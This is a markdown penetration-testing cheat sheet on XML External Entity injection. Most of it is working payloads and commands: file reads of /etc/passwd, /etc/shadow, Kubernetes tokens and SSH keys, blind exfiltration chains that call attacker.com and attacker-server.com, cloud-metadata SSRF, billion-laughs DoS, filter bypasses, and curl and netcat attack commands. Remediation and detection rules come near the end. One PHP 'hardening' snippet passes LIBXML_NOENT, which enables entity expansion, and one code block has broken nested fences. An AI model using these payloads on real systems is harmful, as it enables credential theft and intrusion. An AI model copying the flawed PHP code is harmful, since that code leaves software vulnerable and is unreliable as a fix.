




# XML External Entity (XXE) Injection

## Summary

XXE attacks exploit XML parsers that process external entity references within XML documents. Attackers can read local files, perform SSRF, execute commands, cause denial of service, and in some cases achieve remote code execution via language-specific gadgets (PHP `expect://`, Java deserialization).

Four main types: **Classic XXE** (direct output), **Blind XXE** (out-of-band exfiltration), **Error-based XXE** (data in error messages), **XInclude-based XXE** (when DTD access is restricted).

## Key Concepts

- **DTD (Document Type Definition)**: XML feature that defines entity references and document structure; the root cause of XXE when parsers process external entities.
- **External Entity**: An XML entity whose definition is loaded from an external source (file, URL).
- **Classic XXE**: Direct extraction — file content or response from an internal URL is reflected in the server's response.
- **Blind XXE**: No output visible in the response — confirmed via out-of-band (OOB) DNS/HTTP callbacks to an attacker-controlled server.
- **Error-based XXE**: File content is reflected in an error message by referencing a non-existent path that includes the target data.
- **XInclude-based XXE**: Uses `<xi:include>` when DTD declarations are blocked; allows file inclusion without modifying the DTD.
- **XXE to SSRF**: The XML parser makes an HTTP request to an internal server on the attacker's behalf (cloud metadata, internal services).
- **Billion Laughs Attack**: Exponential entity expansion that consumes server memory (DoS).
- **Parameter Entity**: A DTD entity used only within the DTD itself (e.g., `<!ENTITY % name SYSTEM "url">`); essential for blind XXE chains.

## Technical Details

### How XXE Works

XML's DTD feature allows defining entities that reference external resources. When a vulnerable XML parser processes these entities, it retrieves and includes the external resources:





### Types of XXE



#### Classic XXE

File content is returned directly in the response:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

#### Blind XXE

No direct output — requires out-of-band detection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker-server.com/malicious.dtd">
  %xxe;
]>
<root>test</root>
```

#### Error-Based XXE

File content reflected in error messages:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

#### XInclude-Based XXE

When DTD declarations are blocked:
```xml
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</root>
```

### XML Injection Points

- **API Endpoints**: SOAP, XML-RPC, SAML, REST APIs accepting XML
- **File Uploads**: SVG, DOCX/XLSX, PDF, XML files
- **Content-Type Conversion**: Endpoints that accept JSON but may process XML when `Content-Type: application/xml` is sent
- **Legacy Interfaces**: SOAP web services, XML-RPC
- **Hidden XML Parsers**: Parameters processed as XML behind the scenes
- **Format Conversion Services**: JSON-to-XML, CSV-to-XML converters

### SAML 2.0 XXE

SAML assertions are prime XXE targets:

**AuthnRequest XXE:**
```xml
<samlp:AuthnRequest
  xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
  xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
  ID="_xxe" Version="2.0" IssueInstant="2025-01-01T00:00:00Z">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <saml:Issuer>&xxe;</saml:Issuer>
</samlp:AuthnRequest>
```

**Response Assertion XXE:**
```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/exfil">]>
  <saml:Assertion>
    <saml:AttributeValue>&xxe;</saml:AttributeValue>
  </saml:Assertion>
</samlp:Response>
```

**Encrypted Assertion XXE (Response Wrapping):**
```xml
<saml:EncryptedAssertion>
  <!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd"> %dtd;]>
  <EncryptedData>...</EncryptedData>
</saml:EncryptedAssertion>
```

### EPUB XXE

EPUB files are ZIP archives containing XML. Target library management systems and e-reader apps:
```xml
<?xml version="1.0"?>
<!DOCTYPE package [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<package xmlns="http://www.idpf.org/2007/opf" version="3.0">
  <metadata>
    <dc:title>&xxe;</dc:title>
  </metadata>
</package>
```
Workflow: Create legitimate EPUB, extract, inject XXE into `META-INF/container.xml` or `content.opf`, re-zip, upload.

### Apple Universal Links XXE

iOS deep linking config files:
```xml
<?xml version="1.0"?>
<!DOCTYPE config [
  <!ENTITY xxe SYSTEM "file:///var/mobile/Containers/Data/Application/config.plist">
]>
<config>
  <applinks>&xxe;</applinks>
</config>
```

### Cloud-Native & Kubernetes XXE

#### Kubernetes Admission Webhook XXE

ValidatingWebhookConfiguration receives XML-formatted requests:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  annotations:
    config: |
      <?xml version="1.0"?>
      <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///var/run/secrets/kubernetes.io/serviceaccount/token">
      ]>
      <config>&xxe;</config>
```

**Exploitation flow:**
```bash
# 1. Create pod with XXE payload in annotation
kubectl apply -f evil-pod.yaml

# 2. Admission webhook processes with vulnerable parser
# 3. Service account token exfiltrated

# 4. Use token for privilege escalation
curl -k https://kubernetes.default.svc/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $(cat token)"
```

**ConfigMap XXE:**
```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: xxe-config
data:
  config.xml: |
    <?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/kubernetes/manifests/kube-apiserver.yaml">]>
    <config>&xxe;</config>
```

#### CI/CD Pipeline XXE

**Jenkins XML Config:**
```xml
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "file:///var/jenkins_home/secrets/master.key">
]>
<project>
  <description>&xxe;</description>
</project>
```

**GitLab CI Artifact:**
```yaml
test:
  script:
    - echo '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///etc/gitlab-runner/config.toml">]><root>&xxe;</root>' > report.xml
  artifacts:
    reports:
      junit: report.xml
```

**GitHub Actions:**
```yaml
- name: Parse XML Report
  uses: vulnerable/xml-parser@v1
  with:
    xml-file: |
      <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///home/runner/.ssh/id_rsa">]>
      <testsuites>&xxe;</testsuites>
```

### File Disclosure Targets

- `/etc/passwd` (Unix user information)
- `/etc/shadow` (password hashes on Linux)
- `/etc/hostname` (hostname)
- `/var/run/secrets/kubernetes.io/serviceaccount/token` (K8s SA token)
- Application config files and source code
- Database credentials

### SSRF via XXE



**Cloud metadata endpoints:**
```xml
<!-- AWS IMDSv1 (legacy, still works) -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name">

<!-- Azure IMDS -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/metadata/instance?api-version=2021-02-01">

<!-- GCP (metadata-flavor header required) -->
<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token">
```

AWS IMDSv2 requires a session token obtained via `PUT /latest/api/token` — most XXE parsers cannot make PUT requests. Workarounds for header-protected metadata:

```xml
<!-- Use jar:// protocol (Java) to bypass restrictions -->
<!ENTITY xxe SYSTEM "jar:http://metadata.google.internal!/computeMetadata/v1/instance/hostname">

<!-- Chain with open redirect on same domain -->
<!ENTITY xxe SYSTEM "http://vulnerable-app.com/redirect?url=http://169.254.169.254/latest/meta-data/">
```

### Denial of Service

**Billion Laughs Attack** — Exponential entity expansion:
```xml
<!DOCTYPE data [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<data>&lol3;</data>
```

**Quadratic Blowup** — Large string repeating:
```xml
<!DOCTYPE data [
  <!ENTITY a "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa">
]>
<data>&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;</data>
```

## Methodology

1. **Identify XML processing points**: Locate endpoints accepting XML input — SOAP APIs, SVG uploads, DOCX/XLSX import, XML-RPC, SAML endpoints, RSS feeds, content-type conversion endpoints.

2. **Set up out-of-band detection**: Start a listener (Burp Collaborator, Interactsh, Python HTTP server) before testing to catch blind XXE callbacks.

3. **Test content-type conversion**: Change `Content-Type` from `application/json` to `application/xml` or `text/xml` — the endpoint may silently accept XML.

4. **Test basic XXE — file read**: Send an entity referencing `file:///etc/hostname`. If the hostname appears in the response, classic XXE is confirmed.

5. **Test basic XXE — SSRF**: Send an entity referencing `http://169.254.169.254/latest/meta-data/` (AWS) or `http://metadata.google.internal/` (GCP) to test SSRF capability.

6. **If no output visible, test blind XXE**: Use parameter entities to make the server fetch an external DTD from your server. Watch your listener for incoming requests.

7. **Test error-based XXE**: If both direct output and OOB callback fail, trigger an error that includes file content by referencing a non-existent path with the target file as a directory component.

8. **Test XInclude**: If DTD declarations are blocked (`DOCTYPE` rejected), try `<xi:include parse="text" href="file:///etc/passwd"/>`.

9. **Test file uploads**: Upload SVG files with XXE payloads, or modify DOCX/XLSX internal XML files (extract ZIP → modify `word/document.xml` → re-zip).

10. **Test SAML endpoints**: Inject XXE into SAML AuthnRequest or Response XML — SOAP-based SSO often parses XML unsafely.

11. **Test CI/CD pipelines**: Inject XXE into Jenkins `config.xml`, GitLab CI JUnit artifacts, or GitHub Actions workflow XML parsers.

12. **Test cloud/Kubernetes**: Probe admission webhooks, ConfigMaps, and cloud metadata endpoints via SSRF.

13. **Escalate to sensitive files**: Read `/etc/passwd`, `/etc/shadow`, application config, source code, or `/var/run/secrets/kubernetes.io/serviceaccount/token`.

14. **Test denial of service**: Verify billion laughs or quadratic blowup if entity expansion is not limited.

15. **Document impact**: File disclosure, SSRF access to internal services, cloud metadata credentials, DoS potential, and any RCE-capable gadgets.

### Comprehensive Testing Checklist

**1. Basic entity testing:**
- [ ] Test file access via `file://` protocol (`/etc/passwd`, `/etc/hostname`)
- [ ] Test network access via `http://` protocol (your callback server)

**2. Content delivery methods:**
- [ ] Classic XXE — direct output in response
- [ ] Blind XXE — OOB with remote DTD on your server
- [ ] Error-based XXE — file content in error messages

**3. Protocol testing:**
- [ ] Test various protocols (file, http, https, ftp)
- [ ] Test PHP wrappers (`php://filter/`)
- [ ] Test Java-specific protocols (`jar://`, `netdoc://`)

**4. Format variations:**
- [ ] SVG file uploads
- [ ] DOCX/XLSX document formats (extract, inject, re-zip)
- [ ] PDF files
- [ ] SOAP/XML-RPC interfaces
- [ ] SAML assertions
- [ ] EPUB files
- [ ] Apple Universal Links

**5. Bypasses:**
- [ ] Case variation on DTD keywords
- [ ] URL encoding
- [ ] CDATA sections
- [ ] Namespace manipulation
- [ ] HTML entity encoding (`&#x25;` for `%`)

**6. Escalation:**
- [ ] SSRF against cloud metadata (AWS 169.254.169.254, GCP metadata.google.internal)
- [ ] Internal network scanning
- [ ] Kubernetes admission webhooks and ConfigMaps
- [ ] CI/CD pipelines (Jenkins, GitLab, GitHub Actions)
- [ ] Denial of service (billion laughs, quadratic blowup)

## Detection Commands

```bash
# Classic XXE — file read test
curl -s -X POST "https://target.com/api/endpoint" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><root>&xxe;</root>' \
  | grep -E "(hostname|localhost)"

# Blind XXE — OOB callback test (watch your server for incoming request)
curl -s -X POST "https://target.com/api/endpoint" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "http://COLLABORATOR_URL/test">]><root>&xxe;</root>'

# XInclude test (when DTD is blocked)
curl -s -X POST "https://target.com/api/endpoint" \
  -H "Content-Type: application/xml" \
  -d '<root xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/hostname"/></root>'

# Content-Type conversion test (JSON endpoint accepting XML)
curl -s -X POST "https://target.com/api/login" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><root>&xxe;</root>'

# SVG upload XXE test
curl -s -X POST "https://target.com/upload" \
  -F "file=@malicious.svg"

# SSRF via XXE — cloud metadata probe
curl -s -X POST "https://target.com/api/endpoint" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]><root>&xxe;</root>'
```

## Exploitation Payloads

### Classic XXE — File Read

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>

```xml
<!DOCTYPE ase [ <!ENTITY %test SYSTEM "http://sib.com/sib"> %test; ]>
<example>&test;</example>
```
```

### Classic XXE — SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<root>&xxe;</root>
```

### Classic XXE in SVG

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

### Blind XXE — OOB Detection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker-server.com/malicious.dtd">
  %xxe;
]>
<root>test</root>
```

### Blind XXE — OOB Data Exfiltration

**Payload to submit:**
```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker-server.com/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

**External DTD (`http://attacker-server.com/dtd.xml`):**
```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker-server.com/log.php?data=%data;'>">
```

### Blind XXE — Parameter Entity Chain

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
  %eval;
  %exfil;
]>
<data>test</data>
```

### Error-Based XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

### XInclude Attack

```xml
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</root>
```

### PHP Wrapper XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3">
]>
<foo>&xxe;</foo>
```

### XXE via Content-Type Manipulation

Send XML where JSON is expected:
```
Content-Type: application/xml
```
or:
```
Content-Type: text/xml
```

### XXE in SOAP

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### Billion Laughs (DoS)

```xml
<!DOCTYPE data [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<data>&lol3;</data>
```

### Simple PoC Payloads

```xml
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

## Commands

```bash
# Start a listener for blind XXE callbacks
python3 -m http.server 80

# Or use netcat
nc -lvnp 80

# Start Interactsh for OOB detection
interactsh-client

# Create a malicious DTD file for SSRF
echo '<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM '"'"'http://YOUR_SERVER/?data=%file;'"'"'>">
%eval;
%exfil;' > malicious.dtd

# Serve the DTD file
python3 -m http.server 80

# Extract and re-zip DOCX for XXE injection
unzip document.docx -d docx_extracted/
# Edit docx_extracted/word/document.xml with XXE payload
cd docx_extracted && zip -r ../malicious.docx .
```

## Tools

### XXE Detection and Exploitation
- **OWASP ZAP**: XML External Entity scanner
- **Burp Suite Pro**: XXE scanner extension + Burp AI 2025.2+ (auto chains XXE with OOB callbacks)
- **XXEinjector**: Automated XXE testing tool
- **XXE-FTP**: Out-of-band XXE exploitation framework
- **oxml_sec**: Tool for testing XXE in OOXML files (docx, xlsx, pptx)
- **Semgrep**: Static analysis rules (`java-xxe`, `python-xxe`) to flag unhardened XML parser usage

### Out-of-Band Detection
- **Interactsh**: Interaction collection server
- **Burp Collaborator**: For out-of-band data detection
- **XSS Hunter**: Can be repurposed for XXE callbacks

### DTD Generation
- **dtd.gen**: DTD generator for XXE exfiltration

## Bypass Techniques

### Filter Evasion — Case Variation

```xml
<!docTypE test [ <!ENTity xxe SYSTEM "file:///etc/passwd"> ]>
```

### Alternative Protocol Schemes

```
file:///
php://filter/convert.base64-encode/resource=
gopher://
jar://
netdoc://
```

### URL Encoding

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:%2F%2F%2Fetc%2Fpasswd"> ]>
```

### XXE in CDATA Sections

```xml
<![CDATA[<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
]>]]>
```

### XXE via XML Namespace

```xml
<ns1:root xmlns:ns1="http://example.com">
  <ns1:data xmlns:ns1="http://example.com" xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </ns1:data>
</ns1:root>
```

### Encoding Entity References as HTML Entities

```
&#x25;  →  %
&#x26;  →  &
```

Used in parameter entity chains to bypass naive filters on `%` or `&` characters.

## Remediation Recommendations

- Disable DTD processing completely if possible
- Disable external entity and parameter entity resolution
- Use safe XML parsers that disable XXE by default
- Apply patch management to XML parsers
- Prefer JSON APIs where feasible
- Implement network egress allow-lists to block blind XXE callbacks
- Add XML threat protection at API gateway layer

### Parser Hardening (2024-2025)

- **libxml2 ≥ 2.13**: `XML_PARSE_NO_XXE` disables all external entity resolution by default.
- **Python ≥ 3.13**: standard `xml.*` modules forbid external entities; enable only via `feature_external_ges`.
- **.NET 8**: project templates set `XmlReaderSettings.DtdProcessing = Prohibit`.
- **Java 22**: `XMLConstants.FEATURE_SECURE_PROCESSING` is enabled and `external-general-entities` is `false`.

**Python — prefer defusedxml:**
```python
from defusedxml.ElementTree import fromstring
fromstring(xml_data)
```

**Java (SAX/StAX/DOM):**
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

**.NET:**
```csharp
var settings = new XmlReaderSettings
{
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null
};
using var reader = XmlReader.Create(stream, settings);
```

**PHP:**
```php
$old = libxml_disable_entity_loader(true);
$xml = simplexml_load_string($data, "SimpleXMLElement", LIBXML_NONET | LIBXML_NOENT);
libxml_disable_entity_loader($old);
```

**Go:** Standard `encoding/xml` does not resolve external entities by default.

### API Gateway XML Threat Protection

**AWS API Gateway + Lambda:**
```python
def lambda_handler(event, context):
    body = event.get('body', '')
    if '<!DOCTYPE' in body or '<!ENTITY' in body:
        return {'statusCode': 400, 'body': 'XML DTD not allowed'}
    if len(body) > 100000:
        return {'statusCode': 413, 'body': 'Request too large'}
```

**Kong Gateway:**
```yaml
plugins:
  - name: xml-threat-protection
    config:
      source_size_limit: 1000000
      entity_expansion_limit: 0
      external_entity_limit: 0
      dtd_processing: false
```

**Apigee Edge:**
```xml
<XMLThreatProtection name="XML-Threat-Protection">
  <Source>request</Source>
  <StructureLimits>
    <NodeDepth>10</NodeDepth>
    <AttributeCountPerElement>5</AttributeCountPerElement>
    <NamespaceCountPerElement>3</NamespaceCountPerElement>
    <ChildCount includeComment="true" includeElement="true" includeProcessingInstruction="true" includeText="true">10</ChildCount>
  </StructureLimits>
  <ValueLimits>
    <Text>1000</Text>
    <Attribute>100</Attribute>
    <NamespaceURI>100</NamespaceURI>
    <Comment>500</Comment>
    <ProcessingInstructionData>500</ProcessingInstructionData>
  </ValueLimits>
</XMLThreatProtection>
```

**Nginx + ModSecurity:**
```nginx
SecRule REQUEST_BODY "@rx <!ENTITY" \
    "id:1000,phase:2,deny,status:403,msg:'XXE Attack Detected'"
SecRule REQUEST_BODY "@rx <!DOCTYPE.*\[" \
    "id:1001,phase:2,deny,status:403,msg:'DTD Declaration Blocked'"
```

### Cloud-Metadata Nuance

AWS IMDSv2 now requires a session token. To exploit metadata via XXE you must first obtain a token with `PUT /latest/api/token` and then pass it in the `X-aws-ec2-metadata-token` header of subsequent requests. Most XML parsers cannot make PUT requests, limiting exploitation to legacy IMDSv1 environments.

## Not a Finding If

- **Parser disables DTD** — If `DocumentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` or equivalent is set, XXE is not possible.
- **External entities disabled** — If `external-general-entities` and `external-parameter-entities` are both false, XXE is blocked.
- **Input is not XML** — The endpoint only processes JSON and rejects `Content-Type: application/xml`.
- **No XML parser** — The endpoint stores XML blind without parsing (e.g., raw string in a database field).
- **IMDSv2 enforced** — AWS metadata endpoint requires a session token from `PUT /latest/api/token`; most XML parsers cannot make PUT requests.

## Notes

- SVG-based XXE is one of the most overlooked attack vectors — always test image upload with a crafted SVG.
- DOCX/XLSX files are ZIP archives — extract, modify `word/document.xml`, re-zip.
- AWS IMDSv1 is deprecated but still functional in legacy environments. IMDSv2 requires token-based auth.
- Azure and GCP metadata endpoints require specific headers (`Metadata: true`, `Metadata-Flavor: Google`) — classic XXE cannot set custom headers, use SSRF chains or `jar://` protocol in Java environments.
- Full RCE rarely stems from XXE alone; it typically requires language-specific gadgets (PHP `expect://`, Java deserialization).
- Always test content-type conversion — JSON endpoints may silently accept XML when the Content-Type header is changed.

## References

- https://portswigger.net/web-security/xxe
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
